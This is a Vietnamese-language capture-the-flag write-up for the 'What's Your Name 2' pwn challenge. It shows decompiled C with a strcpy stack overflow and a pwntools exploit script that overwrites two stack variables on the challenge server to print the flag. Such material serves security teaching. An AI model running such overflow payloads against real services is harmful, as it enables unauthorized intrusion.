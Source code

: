 # What's Your Name 2
## Mô tả
> Let us know your name and make sure you have enough money ;P        
> nc 198.211.115.81 10002              
> Flag Format : KCTF{S0m3_T3x7_H3r3}                  
> Author : NomanProdhan

File binary: [whats_your_name_two]

## Phân tích
Kiểm tra file và  checksec
![image](https://user-images.githubusercontent.com/62021009/150631218-4a3daace-e59b-4c8b-b0ba-194213b8282c.png)      
Sử dụng IDA Pro để xem mã giả của chương trình
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[208]; // [rsp+0h] [rbp-120h] BYREF
  char dest[72]; // [rsp+D0h] [rbp-50h] BYREF
  int v6; // [rsp+118h] [rbp-8h]
  int v7; // [rsp+11Ch] [rbp-4h]

  v6 = 0;
  v7 = 0;
  printf("What's your name ? ");
  fflush(_bss_start);
  fgets(s, 200, stdin);
  strcpy(dest, s);
  if ( v7 == 0x5445454C && v6 == 0x534B544E )
  {
    printf("I liked your name and you got enough money :D");
    system("cat /home/hacker/flag.txt");
  }
  else
  {
    printf("Sorry ! I didn't like your name and you don't have enough money. Come one earn some money.");
  }
  return 0;
}
```
- Ban đầu chương trình lấy đầu vào từ người dùng và lưu vào biến `s`
- Copy nội dung từ biến `s` sang biến `dest`, ta nhận thấy ở đây có lỗi **buffer overflow**, vì biến s được khai báo 208 bytes trong khi đó biến dest chỉ có 72 bytes
- Các biến v6, v7 ban đầu được gán bằng 0 nhưng sau đó chương trình lại so sánh với 2 giá trị ở trên.
- Các biến dest, v6, v7 nằm liên tiếp nhau trên stack
## Solution
Vì các biến nằm liên tiếp nhau trên stack, như vậy đầu tiên ta sẽ chèn 72 bytes để lấp đầy biến dest, sau đó là 2 giá trị cần để so sánh vào biến v6 và v7 (lưu ý thứ tự trên stack sẽ là dest -> v6 -> v7)        
Ta có file exploit.py như sau:
```python
from pwn import *

s = remote('198.211.115.81', 10002)
payload = b'a'*72 + p32(0x534B544E) + p32(0x5445454C)
s.sendlineafter(b'name ? ', payload)
s.interactive()
```
![image](https://user-images.githubusercontent.com/62021009/150631609-4e80e778-99c4-46f1-9cb4-b2656d5818f4.png)
> Flag: KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}
